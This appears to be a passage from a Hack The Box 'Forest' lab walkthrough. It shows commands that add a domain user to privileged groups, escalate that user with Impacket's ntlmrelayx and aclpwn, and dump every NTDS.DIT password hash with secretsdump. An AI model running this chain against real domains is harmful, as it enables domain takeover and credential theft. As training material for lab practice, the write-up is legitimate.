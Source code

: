 ```cmd
New-ADUser -Name "TestUser" -Type User -AccountPassword (ConvertTo-SecureString -AsPlainText "p@ssw0rd" -Force) -Enabled $True
Add-AdGroupMember -Identity  "Remote Desktop Users" -Members TestUser
Add-AdGroupMember -Identity  "Remote Management Users" -Members TestUser
Add-AdGroupMember -Identity  "Exchange Windows Permissions" -Members TestUser

OR

net user testuser p@ssw0rd /add /domain
net group "Exchange Windows Permissions" testuser /add
net localgroup "Remote Management Users" testuser /add
```

After that, we can use Impacket’s `ntlmrelayx.py` to escalate TestUser’s privileges

```python
python ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user TestUser
```

![alt text](/static/images/2019/04/forest/forest_ntlm_aclpwn.png "testing")

---

### Using ACLPWN

If you choose to use aclpwn. Make sure neo4j is running in bakground and you have already imported data to bloodhound.

```cmd
aclpwn -f svc-alfresco -d htb.local  -s 10.10.10.161 -du 'neousername' -dp 'neopassowrd'
```

---
>Dont forget to logout and login after addition of user or user escalation.

Now we can use Impacket’s `secretsdump.py` with TestUser’s credentials to dump all the password hasses contained in the NTDS.DIT file on 10.10.10.161.

```python
python secretsdump.py testuser:p@ssw0rd@10.10.10.161 -just-dc
```

![alt text](/static/images/2019/04/forest/forest_secretsdump.png "testing")
